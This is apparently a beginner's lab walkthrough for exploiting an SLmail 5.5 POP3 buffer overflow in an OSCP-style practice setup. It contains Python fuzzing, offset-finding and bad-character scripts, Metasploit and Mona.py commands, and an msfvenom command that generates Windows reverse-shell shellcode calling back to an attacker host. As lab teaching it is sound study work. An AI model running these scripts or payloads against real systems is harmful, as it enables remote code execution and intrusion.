






# Buffer overflow

Pulling off a classical Win32 buffer overflow is a lot like baking a fancy cake. The [cake recipe](https://www.foodnetwork.ca/recipe/raspberry-mascarpone-black-forest-cake/15205/) is actually a bunch of smaller recipes for the topping, the icing, the layers and the filling. If you don't get each mini-recipe right, the cake will suck.

Similarly, a buffer overflow recipe has the following mini-recipes:

**Find the instruction pointer**

* Make a simple script to shove a bunch of garbage into an input field and crash the program
* Find the exact number of characters required to reach the EIP \(instruction pointer\)

**Redirect execution of the program**

* Inspect the program's .dll files to find one without memory protections 
* Once you've found a suitable .dll, search for a `JMP ESP` \(jump to the stack pointer\) command
* Record the memory address for this command

**Make shellcode**

* Find the 'bad' characters that will prevent your exploit from working
* Generate shellcode without bad characters

**Assemble the exploit**

* Update your simple script to hit the EIP, jump to the ESP and execute your shellcode
* Throw in a few nops for breathing room
* Don't forget to put the `JMP ESP` memory address in backwards!

If you haven't done this before, many of the terms above will be unfamiliar, but don't worry. Contrary to what some people say, you can do simple buffer overflows without knowing much about Assembly or memory layout. I spent far too much time reading about those things and freaking myself out. All you need to get started is in the video below.



## Setup

If you're signed up for [PWK-OSCP](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/), you'll get a Windows 7 lab machine with tools installed to practice buffer overflows. It's also pretty easy to set up yourself if you can run 2 virtual machines \(Kali and Windows\) or run a Windows VM on a native Kali machine. In all cases, the Kali machine needs to be able to reach the Windows machine over the network.

1. Download and install a [Windows 7 virtual machine](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
2. **Turn off Windows Firewall**
3. Download and install:
   * [Chrome](https://www.google.com/chrome/)
   * [Netcat](https://eternallybored.org/misc/netcat/)
   * [Immunity Debugger](https://www.immunityinc.com/products/debugger/index.html)
   * [Mona.py](https://github.com/corelan/mona)

At this point, you'll want to snapshot your VM so that you can revert back if your Windows trial expires or you blow up the whole operating system somehow.

## SLmail 5.5

SLmail is one of the classic examples for teaching buffer overflows. There are lots of walkthroughs online, but many important concepts aren't fully explained. This walkthrough is for all the ultranoobs like me who don't know much about debuggers, hex, ASCII, python, etc.

### Install SLmail

[Download it from Exploit-DB](https://www.exploit-db.com/apps/12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe) and install with defaults \(just keep hitting Next\). Since you'll be attacking the POP server on port 110, you should check if it's open and reachable. You can do this by connecting to it from your Windows netcat program:

 `nc [Windows IP] 110`

You can also confirm the POP3 service is running with a quick nmap scan from your Kali machine. This becomes important when you run the debugger and crash the program - you can restart it if you have some kind of service manager \(like XAMMP Control Panel\), but if you just click on `SLMail.exe` the port may not show up unless you restart Windows. Checking that the POP3 service is up will save you a lot of headaches during exploitation.

### Find the instruction pointer

The first step is to crash the program by submitting an overly-long password during login, and watching what happens in Immunity Debugger.

Create a small python script that will repeatedly log into the mail server and submit long strings of characters for the password:

```python
#!/usr/bin/python
import socket

# Create an array where each item in the array will be a string of As
buffer=["A"]
counter=100

# Use a loop to build the array, first with 100 As, then 300, then 500, etc.
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

# Try each string of As in the array as a password value
for string in buffer:
    print "Fuzzing PASS with %s bytes" % len(string)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to Windows 7 machine IP, POP3 service
    connect=s.connect(('10.0.0.1',110)) 
    s.recv(1024)
    s.send('USER username\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()
```

Open Immunity Debugger, click `File > Attach` and choose `SLmail.exe`. You'll see four quadrants of gibberish representing machine language, registers, dump and stack. The program will be paused, so you'll need to hit the Play icon or F9 to run it.

Then run the above python script and observe the output in the terminal. It should hang after the message `Fuzzing PASS with 2900 bytes`, which tells you that a crash occurs somewhere around 2700 bytes. Meanwhile, Immunity Debugger will show that the EIP has been overwritten with `41414141`, or more specifically, a bunch of As. An "A" in hex is represented by `\x41`.



The EIP is important because it is the instruction pointer - it holds the memory address of the next instruction to be carried out. The goal is to overwrite the EIP with a new memory address which points to malicious code. To do this, you need to find out exactly how many characters it takes to reach the EIP without overwriting it.

The fastest way to do this is to send a unique, 2700-character string as the password and observe which character segment overwrites the EIP. This can be done in Kali using Metasploit's `pattern_create` tool:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

This will produce a block of random characters that you can plug into your script instead of the As:

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Buffer with unique character string
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"

try: 
    print "\nSending buffer..."
# Connect to Windows 7 machine, POP3 service    
    s.connect(('10.0.0.1',110))
    data = s.recv(1024)
    s.send('USER username' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!"

except:
    print "Could not connect!"
```

When you run this script, the EIP will be written with some fragment of this unique string:



You can use Metasploit's `pattern_offset` tool to find the location of the `39694438`fragment in the unique string:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438  
[*] Exact match at offset 2606`  
  
So the exact position of the EIP is **2606**. 

### Redirect execution of the program

The next step is to give the EIP \(instruction pointer\) directions to our malicious shellcode. How do we know where our shellcode will end up in memory? At this stage it's helpful to see how these exploits are typically structured:


Recall that this exploit involves shoving a big string of characters into the SLmail password field. As shown in the diagram, the string starts out with some filler characters, enough to touch the EIP. Then we have the EIP, which contains a 4-byte memory address pointing to our shellcode. After the EIP, there may be a [nop sled](https://en.wikipedia.org/wiki/NOP_slide) to give us some wiggle room. Finally, we have our shellcode.

Because of how this exploit string is structured, you'll notice that the stack pointer \(ESP\) is pointing right at our shellcode. That means you don't need to give the EIP the exact address of your shellcode - you can simply tell it to jump to the stack pointer and execute whatever is there. Conveniently, there is an instruction known as `JMP ESP` which does exactly that! If you can find a `JMP ESP` instruction somewhere else in the program, you can give its memory address to the EIP and it will jump to your shellcode.

#### Finding JMP ESP

Using Mona.py, you can pull up a list of modules loaded with the SLmail program by typing `!mona modules` into the bottom text box. The true/false columns in the middle show which ones were compiled **without** buffer overflow protections \([DEP and ASLR](https://security.stackexchange.com/questions/18556/how-do-aslr-and-dep-work)\). `SLMFC.dll` seems to fit the bill nicely.



Click the tiny `e` button on Immunity’s top bar to bring up a list of executable modules and highlight SLMFC. Double-clicking on this item will show us the instructions in the DLL. We can then right-click and choose `Search for > Command` \(or use Ctrl + F\) to find a `JMP ESP` command. If you don't find one, you can search for the [opcode](https://en.wikipedia.org/wiki/Opcode), which is `FFE4` using Mona.py. Enter this command into the bottom text field:

`!mona find -s “\xff\xe4″ -m slmfc.dll`


Record the memory address from the first result and **flip it** because of little endian nonsense: 

```text
5F 4A 35 8F         # Address retrieved from Mona results
\x8f\x35\x4a\x5f    # How it looks in your final exploit
```

### **Make shellcode**

Now that we've built the first part of our exploit, we can prepare some malicious shellcode that can be successfully executed by the program.

In order to run, the shellcode can't contain characters that will be interpreted incorrectly by the program you are exploiting \(such as newline\). These can be identified by overflowing the buffer until the EIP is overwritten, then inserting the hex representation of all ASCII characters:

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Create a variable to hold all ASCII characters 
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

# Create a buffer of 2606 As, 4 Bs and the ASCII characters
buffer= "A" * 2606 + "B" * 4 + badchars

try: 
    print "\nSending buffer..."
# Connect to Windows 7 machine, POP3 service    
    s.connect(('10.0.0.1',110))
    data = s.recv(1024)
    s.send('USER username' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!"

except:
    print "Could not connect!"
```

Note: The ASCII character `\x00` is left out because it's a null byte, which immediately terminates the remainder of the shellcode. It's always a bad character.

Start the SLmail POP3 service, attach it to Immunity Debugger and run your Python script. You'll notice that the EIP has been overwritten with `42424242` \(the 4 Bs you added to the buffer after the 2606 As\).

The next step is to find your buffer string in the dump. In the Registers area of Immunity, click on the memory address where the string of As went in \(ECX\), then right-click and choose `Follow in Dump`.  The dump area will change and show your buffer string: 



You'll notice that the ASCII sequence displays normally at first, but instead of showing `0A` next it shows `29`. That means `\x0a` is a bad character:

```text
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a # ASCII sequence in script
01 02 03 04 05 06 07 08 09 29            # Hex dump in Immunity

```

Remove it from your python script and run it again, following the dump to find the next bad character. As you can see, the sequence proceeds \(without the`0A`\) until we expect to see `0D` but it's missing. That means `\x0d` is a bad character:



I bet you're really hating yourself now, having to pick through a bunch of microscopic letters looking for errors. Suck it up, remove the `\0xd` from your python script and run it again. You should see your entire sequence of ASCII characters with no further errors:



Now we know that there are 3 bad characters which should be removed from our shellcode: `\x00 \x0a \x0d`. Generate your shellcode using this msfvenom command:

`msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine IP] LPORT=443 -f c -a x86 --platform windows -b "\x00\x0A\x0D" -e x86/shikata_ga_nai`

The `-b` option is where you identify the bad characters. Copy the output and keep it somewhere safe until the final step. 


  


